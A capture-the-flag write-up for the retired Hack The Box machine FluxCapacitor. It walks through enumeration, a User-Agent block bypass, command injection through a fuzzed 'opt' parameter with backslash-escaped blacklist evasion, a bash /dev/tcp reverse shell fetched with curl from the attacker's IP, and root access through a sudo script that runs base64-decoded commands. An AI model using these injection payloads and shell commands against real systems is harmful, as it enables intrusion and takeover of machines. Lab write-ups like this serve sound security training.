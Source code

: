 # FluxCapacitor

This is the write-up for the box FluxCapacitor that got retired at the 12th May 2018.
My IP address was 10.10.14.13 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.69    fluxcapacitor.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/fluxcapacitor.nmap 10.10.10.69
```

```markdown
PORT   STATE SERVICE VERSION
80/tcp open  http    SuperWAF
```

## Checking HTTP (Port 80)

On the web page we get the following text:
```markdown
OK: node1 alive FluxCapacitor Inc. info@fluxcapacitor.htb - http://fluxcapacitor.htb
Roads? Where we're going, we don't need roads.
```

In the HTML source is a comment about a _/sync_ directory:
```html
<!--
		Please, add timestamp with something like:
		<script> $.ajax({ type: "GET", url: '/sync' }); </script>
	-->
```

This directory responds with the HTTP code _403 Forbidden_ and displays **openresty/1.13.6.1** as the server.
This software is an open-source web platform that integrates **Nginx** with a **Just-In-Time-Compiler** for the **Lua** programming language.

Lets search for hidden directories with **Gobuster**:
```markdown
gobuster -u http://10.10.10.69/ dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

It finds the following directories:
- /sync
- /synctoy
- /synching
- /sync_scan
- /syncbackse
- /synch
- /sync4j
- /synchpst
- /syncapture
- /syncback
- /syncml

The HTTP code responds back with _200 OK_ but when browsing there with a browser the pages respond with the HTTP code _403 Forbidden_.
One difference between **Gobuster** and the browser is the _User-Agent_, so lets send this too **Burpsuite** and change that header.
```markdown
GET /sync HTTP/1.1
Host: 10.10.10.69
User-Agent: Test
(...)
```

This works and it displays the current server date.
As the comment in the HTML code said we allegedly can add a timestamp on the _/sync_ directory. To do this we will use fuzzing with **Wfuzz**.

### Fuzzing the web application

We need to fuzz for a parameter that can display the date another date. When getting a valid parameter to change the displayed date on the server we can go further and may execute commands.
```markdown
wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://10.10.10.69/sync?FUZZ=yesterday
```

Unfortunately every parameter responds with _200 OK_ and it shows always 19 characters. Lets filter out everything that has 19 characters:
```markdown
wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://10.10.10.69/sync?FUZZ=yesterday --hh=19
```

It shows one result that has 175 characters and the _403 Forbidden_ response:
```markdown
===================================================================
ID           Response   Lines    Word     Chars       Payload
===================================================================

000000753:   403        7 L      10 W     175 Ch      "opt"
```

The parameter _/opt_ does something different than any other parameter when requesting for _yesterday_.
Now lets fuzz for the value of this parameter to see if using special characters are fine with it:
```markdown
wfuzz -c -w /usr/share/seclists/Fuzzing/special-chars.txt -u http://10.10.10.69/sync?opt=FUZZ
```

Results:
```markdown
===================================================================
ID           Response   Lines    Word     Chars    Payload
===================================================================

000000001:   200        2 L      1 W      19 Ch       "~"
000000003:   200        2 L      1 W      19 Ch       "@"
000000002:   200        2 L      1 W      19 Ch       "!"
000000004:   200        2 L      1 W      19 Ch       "#"
000000005:   403        7 L      10 W     175 Ch      "$"
000000009:   403        7 L      10 W     175 Ch      "\*"
000000006:   200        2 L      1 W      19 Ch       "%"
000000008:   200        2 L      1 W      19 Ch       "&"
000000010:   403        7 L      10 W     175 Ch      "("
000000007:   200        2 L      1 W      19 Ch       "^"
000000011:   403        7 L      10 W     175 Ch      ")"
000000012:   200        2 L      1 W      19 Ch       "\_"
000000013:   200        2 L      1 W      19 Ch       "\_"
000000014:   200        2 L      1 W      19 Ch       "+"
000000015:   200        2 L      1 W      19 Ch       "="
000000017:   200        2 L      1 W      19 Ch       "}"
000000020:   403        7 L      10 W     175 Ch      "|"
000000016:   200        2 L      1 W      19 Ch       "{"
000000018:   200        2 L      1 W      19 Ch       "]"
000000019:   200        2 L      1 W      19 Ch       "["
000000021:   200        2 L      1 W      19 Ch       "\"
000000022:   403        7 L      10 W     175 Ch      "\`"
000000023:   200        2 L      1 W      19 Ch       ","
000000024:   200        2 L      1 W      19 Ch       "."
000000026:   200        2 L      1 W      19 Ch       "?"
000000027:   403        7 L      10 W     175 Ch      ";"
000000025:   200        2 L      1 W      19 Ch       "/"
000000028:   200        2 L      1 W      19 Ch       ":"
**000000029:   200        1 L      0 W      1 Ch        "'"**
000000030:   200        2 L      1 W      19 Ch       """
000000031:   403        7 L      10 W     175 Ch      "<"
000000032:   403        7 L      10 W     175 Ch      ">"
```

The special characters that result in a _403 Forbidden_ are:
> dollar sign, asterisk, normal brackets, pipe symbol, backtick, semicolon, greater/smaller than symbol

An odd result is that the _single quote symbol_ resulted in a different character size than the other symbols.

By starting the command with this symbol and try to execute commands after, it shows the output of the command.
It is important to have a space between the first _single quote_ and the command or else it does not work:
```markdown
GET /sync?opt=' whoami' HTTP/1.1
```

This shows the user _nobody_ and thus command execution works.

### Starting a reverse shell

Because of many blacklisted special characters, starting a reverse shell won't be possible so instead we can upload a file that consists the code for a reverse shell and execute it.
Checking the directory _/tmp_:
```markdown
GET /sync?opt=' l\s -l\a /tmp'
```

Some words seem to be blacklisted also, but this can be bypassed by escaping the characters with _backslashes_.
Everyone can write to the directory _/tmp_ so we can upload a file _(revshell.sh)_ with the reverse shell code:
```bash
bash -i >& /dev/tcp/10.10.14.13/9001 0>&1
```

Download the script:
```markdown
GET /sync?opt='  c\u\r\l 10.10.14.13/revshell.sh -o /tmp/abc'
```

This does not download it because of the _slash_ in _"/revshell.sh"_ but when renaming this file to _index.html_ in a directory where is nothing besides this, it gets treated as an index file and can be left out of the command:
```markdown
GET /sync?opt='  c\u\r\l 10.10.14.13 -o /tmp/abc'
```

Now we can make sure it got downloaded correctly by viewing it:
```markdown
GET /sync?opt=' c\a\t /tmp/abc'
```

Execute the script:
```markdown
GET /sync?opt=' b\a\s\h /tmp/abc'
```

After sending this request, the listener on my IP and port 9001 starts a reverse shell as the user _nobody_.

## Privilege Escalation

Lets examine the _sudo_ privileges of _nobody_:
```markdown
sudo -l

# Output
User nobody may run the following commands on fluxcapacitor:
    (ALL) ALL
    (root) NOPASSWD: /home/themiddle/.monit
```

The file _/home/themiddle/.monit_ is owned by root and _nobody_ can execute it as root. This file is a bash script with the following content:
```bash
#!/bin/bash

if [ "$1" == "cmd" ]; then
        echo "Trying to execute ${2}"
        CMD=$(echo -n ${2} | base64 -d)
        bash -c "$CMD"
fi
```

It has to be executed with two parameters. The first one is _cmd_ and the second parameter is a Base64-decoded command.
Lets Base64-decode _"bash"_:
```markdown
echo -n bash | base64

# Output
YmFzaA==
```

Now executing the script with `sudo` and the two parameters:
```markdown
sudo /home/themiddle/.monit cmd YmFzaA==
```

After executing this, it start a shell as root!

